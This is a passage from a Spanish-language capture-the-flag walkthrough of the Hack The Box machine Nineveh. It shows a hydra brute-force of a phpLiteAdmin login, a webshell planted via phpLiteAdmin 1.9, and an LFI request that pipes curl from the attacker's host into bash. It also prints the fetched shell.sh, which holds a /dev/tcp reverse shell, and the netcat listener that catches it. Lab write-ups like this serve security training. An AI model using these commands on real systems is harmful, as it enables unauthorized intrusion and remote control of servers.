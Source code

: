 Es interesante que el puerto 22 este abierto internamente, de momento no podemos hacer nada mas con la pagina, asi que pasamos a la siguiente:

![/assets/images/Nineveh/Untitled%205.png](/assets/images/Nineveh/Untitled%205.png)

Realizo otro ataque de fuerza bruta contra la pagina que corre en el puerto 443:

```bash
❯ hydra 10.10.10.43 -l loquesea -P /usr/share/wordlists/rockyou.txt https-post-form "/db/:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -V -s 443
[443][http-post-form] host: 10.10.10.43   login: loquesea   password: password123
```

Conseguimos la contraseña y en google encuentro una apgina donde nos explica como aprovecharnos de la vulnerabilidad que tiene phpLiteAdmin 1.9

# GANANDO ACCESO

Creamos una nueva base de datos, agregamos una tabla, pegamos el código de una webshell y seleccionamos TEXT, la creamos y en el LFI vamos a la ruta donde se ha guardado:

```bash
http://nineveh.htb/department/manage.php?notes=files/ninevehNotes../../../../../../../var/tmp/hack.php&cmd=curl http://10.10.16.198/shell.sh|bash
```

```bash
❯ cat shell.sh
#!/bin/bash

bash -i > /dev/tcp/10.10.16.198/443 0>&1
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.198] from (UNKNOWN) [10.10.10.43] 59850
whoami
www-data
```
